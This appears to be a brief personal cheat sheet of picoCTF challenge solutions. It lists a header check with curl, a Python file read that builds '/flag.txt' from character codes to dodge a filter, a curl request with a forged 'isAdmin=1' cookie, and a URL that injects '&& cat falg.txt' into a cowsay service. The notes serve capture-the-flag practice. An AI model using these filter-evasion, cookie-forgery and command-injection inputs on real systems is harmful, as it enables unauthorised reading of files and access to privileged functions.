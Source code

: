 - 1) view page source
 
 ------------------------------------------------------------------------------

- curl -I http://shape-facility.picoctf.net:62930/ > check "Server"

- open(chr(47)+"f"+"l"+"a"+"g"+chr(46)+"t"+"x"+"t").read()

- ascii table
- . = 46
- / = 47

-------------------------------------------------------------------------------

curl http://saturn.picoctf.net:50500/check.php --cookie "isAdmin=1"

-------------------------------------------------------------------------------

https://www.base64decode.org/

-------------------------------------------------------------------------------
https://caas.mars.picoctf.net/cowsay/hackeddone && cat falg.txt
-------------------------------------------------------------------------------
